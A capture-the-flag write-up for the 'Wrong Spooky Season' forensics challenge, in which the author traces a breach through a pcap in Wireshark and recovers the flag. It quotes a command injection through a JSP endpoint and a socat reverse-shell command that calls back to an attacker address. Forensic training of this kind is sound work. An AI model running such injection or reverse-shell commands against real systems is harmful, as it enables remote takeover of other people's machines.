




# Wrong Spooky Season
Hack the Boo CTF 2022

## Description

```
"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." 

Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.
```

## Challenge Explanation

For this challenge, we are given a pcap file with network traffic that occured during a breach. The goal is to analyze the traffic and see what went down.


## The Breach

First, I opened the PCAP in Wireshark and filtered down to only HTTP requests. The early traffic looks innocuous, just retrieving images and HTML documents.



However, later on in the traffic, we can see the breach occur. First, we see evidence of a command injection in packet 416. The attacker hits an endpoint with a GET request, and a query string of `cmd=whoami`:

```GET /e4d1c32a56ca15b3.jsp?cmd=whoami HTTP/1.1\r\n```

In the server response, we can see that this command was executed on the victim's machine, and even worse, the result of the `whoami` command... this process is running as `root`!



After this, things devolve quickly. In packet 436, a command is sent to install Socat, a Linux tool used for working with sockets. Finally, in packet 464, the attacker sends the following command:

```
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash
```

This is a super basic reverse shell. The attacker has presumably set up a listener on their own machine at 192.168.1.180:1337 that is waiting for incoming TCP connections. The Socat command sent to the victim will cause the victim's machine to connect back to the attacker and spawn a shell that the attacker can then use.

## The Solution

At this point, I spun my wheels for a bit. Eventually, I realized that because the attacker now has a shell, there would of course be no further HTTP requests. Everything from this point on will just be TCP going to and from 192.168.1.180:1337. I removed the Wireshark filter and found that there were a bunch of messages sent after the creation of the reverse shell. In the packets that go `1337->45416`, we can see commands that the attacker is typing into the victim's shell. In packets going the other way, we can see the shell's output. In packet 500, the attacker sends a large command with `echo` and `socat`.



This could be interesting. By using Wireshark's Trace feature, we get a nice view of the entire conversation:



Among other things, it looks like the attacker is sending over a backwards base64-encoded string, and then reversing it once it's on the victim's machine. This was likely done to simulate the kinds of code obfuscation that would happen when a real attacker attempts to do something like getting malware past the victim's antivirus.

If we grab the base64 string, reverse it, and decode it ourselves, this is what we get: 

```
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Success!